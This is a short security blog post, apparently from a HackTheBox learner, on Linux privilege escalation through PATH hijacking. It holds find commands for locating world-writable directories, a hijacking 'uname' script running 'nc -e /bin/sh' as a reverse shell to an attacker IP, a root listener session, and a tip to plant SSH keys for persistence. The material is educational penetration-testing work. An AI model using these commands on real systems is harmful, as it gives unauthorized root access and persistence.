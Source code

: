 ```yaml
---
layout: post
title:  "$PATH and Linux privilege escalation"
description: "A note concerning privilege escalation in Linux by abusing path priorities."
tag: [linux, privesc]
---
```


# Path priority is important

A short note on why write permission could be a recipe for disaster.

Privilege escalation is the process of elevating privileges on a computer system in an unauthorized way. For instance, we could have a legitimate user account and attempt to exploit a misconfiguration or even a vulnerable kernel (see [DirtyCow exploit](https://www.exploit-db.com/exploits/40616)). In penetration testing, there is often a situation in which we gain access to a system shell, but the shell is limited to user with low-privileges. Let's say we have sucessfully exploited a command injection vulnerability on a web server, have a reverse shell, but the shell belongs to the *www-data* user. Our goal is to escalate from here to root. This post is about a particular method abusing a misconfiguration and the PATH env variable mechanism and a legitimate cronjob running as root.

When Linux is looking for a path to execute binary called like:

```console
marek@marek-mint:~$ python
Python 2.7.15+ (default, Nov 27 2018, 23:36:35) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
It will check paths in order defined in PATH environmental variable, like this:

```console
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So from left to right:

```console
marek@marek-mint:~$ file /usr/local/bin/python
/usr/local/bin/python: cannot open `/usr/local/bin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/sbin/python
/usr/sbin/python: cannot open `/usr/sbin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/bin/python
/usr/bin/python: symbolic link to python2.7
```
Found a symlink, executes, the actual binary is:

```console
marek@marek-mint:~$ readlink -f /usr/bin/python
/usr/bin/python2.7
```

Apparently there.

# Privilege escalation

This method may be used to escalate privileges if our user has write permission to a directory another user or even root executed binaries from. So if let's say root executes a perl script and we can't tamper with the script maybe we can tamper with the interpreter binary itself. If it's possible to replace the binary with eg. a bash script with commands to execute, they will execute as root and escalate privileges this way.

There may be a situation we don't even have to overwrite the binary, because if we put a malicious script named "perl" in a location that takes precedence in the PATH eg. */usr/local/sbin/perl* then it will be executed instead. Always look for writable locations during privilege escalation attempts.

Finding writable locations:
```console
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
```
Source: [g0tm1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

So there was a script running as root with cron calling "uname". Notice that "uname" is just a built-in system program so the administrator trusted it to be harmless. I created an executable script:

```console
user@remotemachine:~$ cat uname
#!/bin/sh

nc -e '/bin/sh' 10.0.0.3 9001
```
which would create a reverse shell as root to my local machine 10.0.0.3 listening on port 9001. 

```console
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.0.0.3] from (UNKNOWN) [10.0.0.4] 38682
whoami
root
```

Most of the time it's a good idea to upgrade shell like this:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Of course nc might have not been installed on the remote box but any available command may be called as root this way. You may for example push your public key to authorized_keys of another user or root and login with SSH.

I've learned this during my [HackTheBox](https://hackthebox.eu) hacking attempts, a platform which I recommend as it has a great number of machines and challenges and a supportive community.
